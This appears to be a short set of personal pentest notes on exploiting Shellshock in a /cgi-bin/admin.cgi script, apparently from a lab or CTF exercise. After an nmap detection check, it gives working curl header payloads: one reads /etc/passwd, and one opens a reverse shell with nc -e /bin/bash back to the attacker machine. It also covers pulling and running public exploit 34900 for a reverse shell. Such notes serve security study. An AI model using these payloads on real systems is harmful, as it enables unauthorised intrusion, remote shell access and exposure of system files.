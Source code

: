 https://www.sevenlayers.com/index.php/125-exploiting-shellshock
Nikto:
![[Pasted image 20220615122716.png]]
`/cgi-bin/admin.cgi`
Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```
Or use
exploit 34900.py
```bash - kali
searchsploit -m 34900
```
May need to manually edit exploit to include cgi-bin target:
![[Pasted image 20220615123539.png]]
```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```